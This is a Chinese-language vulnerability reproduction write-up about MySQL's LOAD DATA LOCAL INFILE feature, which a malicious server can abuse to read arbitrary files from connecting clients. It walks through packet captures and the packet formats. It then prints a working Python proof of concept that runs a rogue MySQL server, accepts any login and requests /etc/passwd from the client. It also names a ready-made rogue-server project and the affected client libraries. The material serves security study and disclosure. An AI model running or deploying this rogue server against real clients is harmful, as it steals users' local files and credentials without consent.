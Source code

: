 MySQL LOAD DATA 读取客户端任意文件
==================================

一、漏洞简介
------------

### LOAD DATA INFILE

mysql的LOAD DATA
INFILE语句主要用于读取一个文件的内容并且存入一个表中。通常有两种用法，分别是：

    load data infile "/etc/passwd" into table TestTable fields terminated by '分隔符';
    load data local infile "/etc/passwd" into table TestTable fields terminated by '分隔符';

第一个语句是读取服务器上的/etc/passwd文件并存入TestTable表中，第二个语句是读取客户端本地的/etc/passwd文件并存入TestTable表中。我们要利用的是LOAD
DATA LOCAL INFILE。官方文档中也提出了这个问题（PS：Google翻译的不是很准确）

![](./resource/MySQLLOADDATA读取客户端任意文件/media/rId23.png)

二、漏洞影响
------------

三、复现过程
------------

### 分析数据包

测试环境：MacOS 10.14Mysql 5.7.21

使用tcpdump抓取3306端口的数据包

![](./resource/MySQLLOADDATA读取客户端任意文件/media/rId27.png)

#### 1.服务器向客户端发送greeting问候包，包含服务端banner信息

![](./resource/MySQLLOADDATA读取客户端任意文件/media/rId29.png)

#### 2.客户端发送登陆请求包，包含用户名密码，以及含有LOAD DATA LOCAL选项的客户端banner信息。

![](./resource/MySQLLOADDATA读取客户端任意文件/media/rId31.png)

#### 3.然后是客户端初始化的一些查询，比如select database(); select @\@version\_comment;

![](./resource/MySQLLOADDATA读取客户端任意文件/media/rId33.png)

#### 4.找到我们执行的LOAD DATA INFILE数据包，第一个包看起来比较正常，是客户端发起的Request Que

![](./resource/MySQLLOADDATA读取客户端任意文件/media/rId35.png)

#### 5.但是紧接着服务器返回了一个包含刚才所要LOAD DATA INFILE的文件名/Users/smi1e/Desktop/test.txt的数据包。

![](./resource/MySQLLOADDATA读取客户端任意文件/media/rId37.png)

#### 6.然后客户端向服务端发送了/Users/smi1e/Desktop/test.txt文件的内容：

![](./resource/MySQLLOADDATA读取客户端任意文件/media/rId39.png)

如果我们在客户端发送查询之后，返回一个Response
TABULAR数据包，即服务端向客户端发送了文件名的数据包，如果我们把这个文件名设置成我们想要读取的文件，那么我们就可以读取客户端的任意文件了。正如官方文档所写的
In theory, a patched server could be built that would tell the client
program to transfer a file of the server\'s choosing rather than the
file named by the client in the [LOAD
DATA](https://dev.mysql.com/doc/refman/8.0/en/load-data.html)
statement.也就是说想要读取哪个文件是服务端说了算，跟客户端所request的文件名没有关系。

最重要的是伪造的服务端可以在任何时候回复一个file-transfer
请求，不一定非要是在客户端发送LOAD DATA LOCAL数据包的时候。不过如果想要利用此特性，客户端必须具有CLIENT\_LOCAL\_FILES即(Can use
LOAD DATA
LOCAL)属性。如果没有的话，就要在连接mysql的时候加上\--enable-local-infile。

### 搭建MySQL服务端

主要分为

-   向 MySQL Client 发送Server Greeting
-   等待 Client 端发送一个Query Package
-   回复一个file transfer请求

我们需要知道如何构造File Transfer和Server
Greeting数据包，这些包的格式都可以在 MySQL 的官方文档上找到。

File Transfer数据包格式：Protocol::LOCAL\_INFILE\_Request

并且我们需要等待一个来自 Client
的查询请求，才能回复这个读文件的请求。不过我们在上面看到客户端在连接成功后会自动的做一些初始化的查询。

![](./resource/MySQLLOADDATA读取客户端任意文件/media/rId42.png)

官方也给了exmaple

    0c 00 00 01 fb 2f 65 74    63 2f 70 61 73 73 77 64    ...../etc/passwd

数据包的内容其实是从\\xfb开始的，这个字节代表包的类型，后面紧跟要读取的文件名。前面的0x0c是数据包的长度（从
\\xfb 开始计算），长度后面的三个字节\\x00\\x00\\x01是数据包的序号。

![](./resource/MySQLLOADDATA读取客户端任意文件/media/rId43.png)

Greeting数据包格式：官方文档，如果不会构造可以直接拷贝抓到的数据包然后改一下长度、文件名之类的。

这里直接拷贝大佬归纳的格式。

    '\x0a',  # Protocol
    '6.6.6-lightless_Mysql_Server' + '\0',  # Version
    '\x36\x00\x00\x00',  # Thread ID
    'ABCDABCD' + '\0',  # Salt
    '\xff\xf7',  # Capabilities, CLOSE SSL HERE!
    '\x08',  # Collation
    '\x02\x00',  # Server Status
    "\x0f\x80\x15", 
    '\0' * 10,  # Unknown
    'ABCDABCD' + '\0',
    "mysql_native_password" + "\0"

### poc

来源于https://www.vesiluoma.com/abusing-mysql-clients/的POC，测了一个多小时都没成功，最后发现里面
\#3payload写错了，我给改了下。

    #!/usr/bin/python
    #coding: utf8
    import socket

    # linux :
    #filestring = "/etc/passwd"
    # windows:
    #filestring = "C:\Windows\system32\drivers\etc\hosts"
    HOST = "0.0.0.0" # open for eeeeveryone! ^_^
    PORT = 3306
    BUFFER_SIZE = 1024

    #1 Greeting
    greeting = "\x5b\x00\x00\x00\x0a\x35\x2e\x36\x2e\x32\x38\x2d\x30\x75\x62\x75\x6e\x74\x75\x30\x2e\x31\x34\x2e\x30\x34\x2e\x31\x00\x2d\x00\x00\x00\x40\x3f\x59\x26\x4b\x2b\x34\x60\x00\xff\xf7\x08\x02\x00\x7f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x68\x69\x59\x5f\x52\x5f\x63\x55\x60\x64\x53\x52\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00"
    #2 Accept all authentications
    authok = "\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00"

    #3 Payload
    #数据包长度
    payloadlen = "\x0c"
    padding = "\x00\x00"
    payload = payloadlen + padding +  "\x01\xfb\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((HOST, PORT))
    s.listen(1)

    while True:
        conn, addr = s.accept()

        print 'Connection from:', addr
        conn.send(greeting)
        while True:
            data = conn.recv(BUFFER_SIZE)
            print " ".join("%02x" % ord(i) for i in data)
            conn.send(authok)
            data = conn.recv(BUFFER_SIZE)
            conn.send(payload)
            print "[*] Payload send!"
            data = conn.recv(BUFFER_SIZE)
            if not data: break
            print "Data received:", data
            break
        # Don't leave the connection open.
        conn.close()

![](./resource/MySQLLOADDATA读取客户端任意文件/media/rId45.png)

ps: 实测 下面这个项目比较好用，上面的poc还需要改长度和内容的16进制值Github还有一个项目：https://github.com/allyshka/Rogue-MySql-Server

该特性适用于：MySQL Client、 PHP with mysqli、Python with
MySQLdb、Python3 with mysqlclient、Java with JDBC Driver等。
